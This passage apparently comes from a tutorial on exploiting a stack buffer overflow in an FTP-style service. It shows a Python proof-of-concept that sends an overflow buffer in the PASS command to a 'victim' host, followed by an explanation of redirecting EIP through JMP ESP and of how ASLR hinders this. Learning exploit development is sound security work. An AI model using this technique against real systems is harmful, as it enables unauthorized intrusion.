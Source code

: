 # Build a TCP SOCKET (stream) and use it to connect to victim IP & Port
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
data = s.recv(1024)
print(data)

# Send USER command with Username x41
s.send(b'USER x41\r\n')
data = s.recv(1024)
print(data)

# Send PASS command with our buffer
s.send(b'PASS ' + buffer + b'\r\n')
data = s.recv(1024)
print(data)

# Close connection
s.close()
{{< / highlight >}}

![poc-esp-register](poc-esp-register.png)

![poc-esp-stack](poc-esp-stack.png)

We could write an address into "EIP" that leads to a `JMP ESP` or `CALL ESP` instruction. This indirect method avoids hard-coding a "stack" address that's constantly changing.
These instructions can be found in "DLL's" that the program or operating system ships.
Using the "Windows DLL's" is not always a good idea. The reason why you want to avoid "Windows DLL's" is because they have "ASLR" (Address-Space-Layout-Randomization) enabled.
This will prevent simple exploits like this because the `JMP ESP` instruction won't be at the same location every time. Try it with this "exploit" later on a "Windows 10" machine. It will work just fine until you reboot.

